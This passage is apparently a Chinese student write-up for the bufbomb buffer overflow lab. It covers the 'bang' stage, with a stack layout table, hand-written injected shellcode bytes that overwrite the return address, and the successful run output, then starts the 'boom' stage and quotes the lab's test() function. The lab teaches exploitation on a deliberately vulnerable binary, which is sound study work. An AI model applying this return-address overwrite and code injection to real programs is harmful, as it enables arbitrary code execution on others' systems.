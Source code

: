 首先查看`bang`的地址，为`0x08048d05`：

```asm
08048d05 <bang>:
 8048d05:	55                   	push   %ebp
```

| Addr      | Val         | Size |
| --------- | ----------- | ---- |
| +0x4 | return addr (指向buf的起始地址) | 0x4  |
| +0x0 ebp  | old ebp     | 0x4  |
| -0x28     | buf         | 0x28 |
| -0x38 esp |             |      |

设计指令如下，其中`0x804c220`是`cookie`的地址，`0x804c218`是`global_value`的地址。使用`push`压入`bang`的返回地址，执行`ret`时`esp`恰好指向`bang`，实现了跳转。

```
a1 20 c2 04 08       	/* mov    0x804c220,%eax */
a3 18 c2 04 08       	/* mov    %eax,0x804c218 */
68 05 8d 04 08       	/* push   $0x8048d05 */
c3                   	/* ret */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 32 */
00 00 00 00 00 00 00 00 
00 00 00 00 48 38 68 55 /* 48 */
```

### 结果

```shell
$ ./hex2raw < bang.txt | ./bufbomb -u U201814791
Userid: U201814791
Cookie: 0x675abfd7
Type string:Bang!: You set global_value to 0x675abfd7
VALID
NICE JOB!
```

## boom

### 任务

本阶段的实验任务就是构造这样一个攻击字符串，使得`getbuf`函数不管获得什么输入，都能将正确的`cookie`值返回给`test`函数，而不是返回值`1`。除此之外,你的攻击代码应还原任何被破坏的状态，将正确返回地址压入栈中，并执行`ret`指令从而真正返回到`test`函数。

### 题解

首先查看`bufbomb.c`中`test`的定义。test调用`getbuf`给val赋值，并要求等于`cookie`。因此需在`getbuf()`中输入构造字符串，其内容为一段自定义的指令，令返回值等于`cookie`，并保证原有的`ebp`不变。

```c
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval(); 

    val = getbuf(); 

    /* Check for corrupted stack */
    if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n");
    }
```